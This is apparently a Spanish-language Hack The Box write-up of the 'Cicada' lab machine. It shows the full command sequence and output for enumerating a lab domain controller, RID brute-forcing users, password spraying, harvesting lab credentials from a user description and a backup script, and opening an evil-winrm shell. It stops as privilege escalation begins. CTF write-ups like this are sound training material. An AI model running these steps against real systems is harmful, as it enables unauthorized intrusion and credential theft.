





+++
author = "Andrés Del Cerro"
title = "Hack The Box: Cicada Writeup | Easy"
date = "2025-02-18"
description = ""
tags = [
    "HackTheBox",
    "Cicada",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Network Security",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "DNS Enumeration",
    "LDAP Enumeration",
    "SMB Enumeration",
    "Information Disclosure",
    "Password Spraying",
    "RID Brute",
    "Abusing WinRM",
    "Abusing Backup Operators Group"
]

+++

# Hack The Box: Cicada Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Cicada"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.69.107 --ulimit 5000 -g
10.129.69.107 -> [53,88,135,139,389,445,464,636,3268,3269,5985]
```

```console
$ nmap -p53,88,135,139,389,445,464,636,3268,3269,5985 -sCV 10.129.69.107 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 18:31 CEST
Nmap scan report for 10.129.69.107
Host is up (0.090s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 21:31:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-30T21:32:20
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 5h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.30 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 10.129.69.107 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 18:33 CEST
Nmap scan report for 10.129.69.107
Host is up (0.10s latency).
Not shown: 1496 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
389/udp open  ldap

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

Del escaneo inicial encontramos el dominio `cicada.htb` y el CN `CICADA-DC.cicada.htb`, lo añadimos al `/etc/hosts`

Sabemos que nos enfrentamos contra un entorno de directorio activo ya que están los típicos puertos abiertos como SMB, Kerberos, LDAP, NTP por UDP...

# DNS Enumeration

Consultando los registros de tipo A no encontramos nada interesante.
```console
$ dig A cicada.htb @10.129.69.107

; <<>> DiG 9.18.24-1-Debian <<>> A cicada.htb @10.129.69.107
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45662
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;cicada.htb.                    IN      A

;; ANSWER SECTION:
cicada.htb.             600     IN      A       10.129.69.107

;; Query time: 36 msec
;; SERVER: 10.129.69.107#53(10.129.69.107) (UDP)
;; WHEN: Mon Sep 30 18:36:13 CEST 2024
;; MSG SIZE  rcvd: 55
```

Lo mismo para los name servers.
```console
$ dig ns cicada.htb @10.129.69.107

; <<>> DiG 9.18.24-1-Debian <<>> ns cicada.htb @10.129.69.107
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59292
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;cicada.htb.                    IN      NS

;; ANSWER SECTION:
cicada.htb.             3600    IN      NS      cicada-dc.cicada.htb.

;; ADDITIONAL SECTION:
cicada-dc.cicada.htb.   3600    IN      A       10.129.69.107
cicada-dc.cicada.htb.   3600    IN      AAAA    dead:beef::a7d2:2a09:fa94:c675
cicada-dc.cicada.htb.   3600    IN      AAAA    dead:beef::108

;; Query time: 36 msec
;; SERVER: 10.129.69.107#53(10.129.69.107) (UDP)
;; WHEN: Mon Sep 30 18:36:48 CEST 2024
;; MSG SIZE  rcvd: 135
```

La transferencia de zona falla.
```console
$ dig axfr cicada.htb @10.129.69.107

; <<>> DiG 9.18.24-1-Debian <<>> axfr cicada.htb @10.129.69.107
;; global options: +cmd
; Transfer failed.
```

Con `dnsenum` podemos hacer fuerza bruta para intentar encontrar mas subdominios pero no encontramos ninguno.
```console
 $ dnsenum --dnsserver 10.129.69.107 -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt cicada.htb
```

# SMB Enumeration

Con `smbmap` podemos intentar enumerar si existen recursos compartidos a nivel de red que podemos acceder de forma libre como un usuario invitado.
```console
$ smbmap -H 10.129.69.107 -u 'null' 
[+] Guest session       IP: 10.129.69.107:445   Name: CICADA-DC.cicada.htb                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     NO ACCESS
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

Vemos un recurso `HR`  interesante.

Con `smbclient` podemos ver que contiene este recurso.
```console
$ smbclient \\\\10.129.69.107\\HR -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

                4168447 blocks of size 4096. 330552 blocks available
```

Vemos una nota, vamos a descargarla y a echarla un vistazo.
```console
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (4,0 KiloBytes/sec) (average 4,0 KiloBytes/sec)
```

La nota es la siguiente.

> Dear new hire!                                                          
> Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.                                   
> Your default password is: Cicada$M6Corpb*@Lp#nZp!8                                 
> To change your password:                                        
> 1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.                           
> 2. Once logged in, navigate to your account settings or profile settings section.         
> 3. Look for the option to change your password. This will be labeled as "Change Password".                      
> 4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, an
> d special characters.       
> 5. After changing your password, make sure to save your changes.                                                                                                               
> Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.                               
> If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.
> 
> Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!                                                                 
> Best regards,                          
> Cicada Corp


De la nota encontramos una credencial `Cicada$M6Corpb*@Lp#nZp!8`

También un usuario `support`

Por ahora solo tenemos ese usuario, podemos comprobar si esa credencial es válida para ese usuario. Ni si quiera se si ese usuario existe, así que primero vamos a comprobarlo con `kerbrute`

Me reporta que este usuario no existe.
```console
$ /opt/kerbrute userenum -d cicada.htb --dc CICADA-DC.cicada.htb users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/30/24 - Ronnie Flathers @ropnop

2024/09/30 18:45:51 >  Using KDC(s):
2024/09/30 18:45:51 >   CICADA-DC.cicada.htb:88

2024/09/30 18:45:51 >  Done! Tested 1 usernames (0 valid) in 0.038 seconds
```

Aún así con `netexec` podemos comprobar que estas credenciales parecen ser válidas..
```console
$ nxc smb 10.129.69.107 -u support -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8 
```

Igualmente no tenemos permisos para poder conseguir una consola interactiva mediante WinRM, por lo cual como conclusión podemos saber que este usuario, si existe, no pertenece al grupo `Remote Management Users`
```console
$ nxc winrm 10.129.69.107 -u support -p 'Cicada$M6Corpb*@Lp#nZp!8'
WINRM       10.129.69.107   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.69.107   5985   CICADA-DC        [-] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8
```

Intentando enumerar SMB otra vez podemos ver que nos reporta un error de sesión, por lo cual quiero pensar que estas credenciales no son válidas y `netexec` ha dado un falso positivo ya que se admiten sesiones como invitados.
```console
$ smbmap -H 10.129.69.107 -u 'support' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[+] Guest session       IP: 10.129.69.107:445   Name: CICADA-DC.cicada.htb                              
[!] Error:  (<class 'impacket.smbconnection.SessionError'>, 'smbmap', 1337)
```

# LDAP Enumeration
En este punto no tenemos una lista de usuarios pero si unas credenciales, por lo cual mi prioridad es conseguir usuarios válidos a nivel de dominio.

Podemos enumerar algo de información de forma anónima pero no encontramos nada interesante.
```console
$ ldapsearch -H ldap://cicada.htb/ -x -s base -b '' "(objectClass=*)" "*"
```

# RID Brute
Como tampoco podemos hacer nada a través de RPC, podemos intentar hacer un RID Brute a través de SMB para conseguir usuarios válidos.

```console
$ nxc smb 10.129.69.107 -u 'guest' -p '' --rid-brute 5000
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.69.107   445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Y conseguimos una lista de usuarios.

Podemos hacer un simple one-liner para quedarnos con los usuarios y exportarlos a un fichero `users.txt`
```console
$ nxc smb 10.129.69.107 -u 'guest' -p '' --rid-brute 5000 | grep SidTypeUser | awk '{print $6}' | cut -d'\' -f2 >> users.txt
```

Y aquí tenemos nuestra lista de usuarios. 

> [!NOTE]
> El usuario `support` lo he añadido yo manualmente.

```console
$ cat users.txt 
support
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Ahora podemos confirmar que estos usuarios son válidos con `kerbrute`
```console
$ /opt/kerbrute userenum -d cicada.htb --dc CICADA-DC.cicada.htb users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/30/24 - Ronnie Flathers @ropnop

2024/09/30 19:02:05 >  Using KDC(s):
2024/09/30 19:02:05 >   CICADA-DC.cicada.htb:88

2024/09/30 19:02:05 >  [+] VALID USERNAME:       emily.oscars@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       Administrator@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       john.smoulder@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       CICADA-DC$@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       Guest@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       david.orelious@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       sarah.dantelia@cicada.htb
2024/09/30 19:02:05 >  [+] VALID USERNAME:       michael.wrightson@cicada.htb
2024/09/30 19:02:05 >  Done! Tested 10 usernames (8 valid) in 0.107 seconds
```

Ahora podemos intentar la credencial encontrada con cada usuario.
```console
$ nxc smb 10.129.69.107 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```

Vemos que esta credencial es válida para el usuario `michael.wrightson` pero lamentablemente no pertenece al grupo `Remote Management Users`
```console
$ nxc winrm 10.129.69.107 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
WINRM       10.129.69.107   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.69.107   5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

# Enumerating SMB (again)
Ahora vemos que como este usuario tenemos acceso al recurso `NETLOGON` y `SYSVOL`
```console
$ smbmap -H 10.129.69.107 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'                                                  
[+] IP: 10.129.69.107:445       Name: CICADA-DC.cicada.htb                                                                              
        Disk                                                    Permissions     Comment                                                 
        ----                                                    -----------     -------                                                 
        ADMIN$                                                  NO ACCESS       Remote Admin                                            
        C$                                                      NO ACCESS       Default share
        DEV                                                     NO ACCESS
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 

```

En `NETLOGON` no encontramos nada interesante, por encontrar no encontramos nada.
```console
$ smbclient \\\\10.129.69.107\\NETLOGON -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 12:08:56 2024
  ..                                  D        0  Thu Mar 14 12:15:21 2024

                4168447 blocks of size 4096. 329847 blocks available

```

Y en el `SYSVOL` no encontramos nada relevante.

# Enumerating LDAP (again)
Ahora que tenemos credenciales válidas, vamos a intentar enumerar LDAP.

Me reporta credenciales no válidas, algo extraño porque sabemos al 100% que estas credenciales son válidas.
```console
$ ldapsearch -x -H ldap://10.129.69.107 -D 'cicada.htb/michael.wrightson' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=CICADA,DC=HTB"
ldap_bind: Invalid credentials (49)
        additional info: 80090308: LdapErr: DSID-0C09050E, comment: AcceptSecurityContext error, data 52e, v4f7c
```

Entonces vamos a probar con `ldapdomaindump`, una herramienta muy útil que te reporta toda la información del LDAP en un formato HTML cómodo de visualizar.
```console
$ ldapdomaindump 10.129.69.107 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-json --no-grep
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Vemos que me ha generado varios archivos.
```console
$ ls
combo.txt                    domain_computers.html  domain_policy.html  domain_users_by_group.html  users.txt
domain_computers_by_os.html  domain_groups.html     domain_trusts.html  domain_users.html
```

Ahora simplemente los podemos servir por el puerto 8081.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Y a través del navegador visualizarlos.

Al revisar los usuarios, vemos que el usuario `david.orelious` ha dejado su contraseña en la descripción de su propio usuario por si se olvida.. Muy buena práctica.


`david.orelious:aRt$Lp#7t*VQ!3`

Con `netexec` podemos validar estas credenciales y vemos que son válidas para el usuario en cuestión.
```console
$ nxc smb 10.129.69.107 -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-success
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\support:aRt$Lp#7t*VQ!3 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Administrator:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Guest:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\krbtgt:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\john.smoulder:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\michael.wrightson:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\emily.oscars:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
```

Aunque vemos que el único usuario que puede conseguir una consola a través de WinRM es `emily.oscars`


# Enumerating SMB (x3) -> Foothold
Vamos a enumerar otra vez SMB, a ver si podemos acceder al recurso `DEV` el cual antes no teníamos permisos.

Y ahora tenemos permisos de escritura.
```console
$ smbmap -H 10.129.69.107 -u david.orelious -p 'aRt$Lp#7t*VQ!3'
[+] IP: 10.129.69.107:445       Name: CICADA-DC.cicada.htb                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     READ ONLY
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

Encontramos un script en powershell, lo vamos a descargar.
```console
$ smbclient \\\\10.129.69.107\\DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

                4168447 blocks of size 4096. 329203 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (3,2 KiloBytes/sec) (average 3,2 KiloBytes/sec)
```

Este es el script.
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Y están las credenciales de `emily.oscars`

Podemos comprobar que son válidas con `netexec`
```console
$ nxc winrm 10.129.69.107 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.129.69.107   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.69.107   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

Y ahora podemos ganar una consola fácilmente con `evil-winrm`

```console
$ evil-winrm -i 10.129.69.107 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

Podemos leer la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
0d1cad03c12036...
```

# Privilege Escalation
Rápidamente podemos ver que este usuario pertenece al grupo `Backup Operators`
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
